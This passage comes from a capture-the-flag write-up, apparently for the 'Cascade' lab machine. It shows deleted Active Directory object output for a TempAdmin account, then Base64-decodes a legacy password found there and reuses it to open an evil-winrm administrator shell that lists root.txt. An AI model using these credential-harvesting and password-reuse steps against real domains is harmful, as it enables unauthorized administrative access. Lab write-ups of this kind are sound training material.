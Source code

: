 ```bash
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```

We see the password "cascadeLegacyPwd: YmFDVDNyMWFOMDBkbGVz". The password is in Base64. Decoding the password

```css
echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d
baCT3r1aN00dles
```

In the note, it was said, Admin password is same as TempAdmin password. Lets login as administrator using TempAdmin Base64 decoded password

```bash
evil-winrm -i 10.10.10.182 -u administrator -p baCT3r1aN00dles

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/30/2020   5:39 AM             34 root.txt
-a----        3/25/2020  11:17 AM           1031 WinDirStat.lnk
```
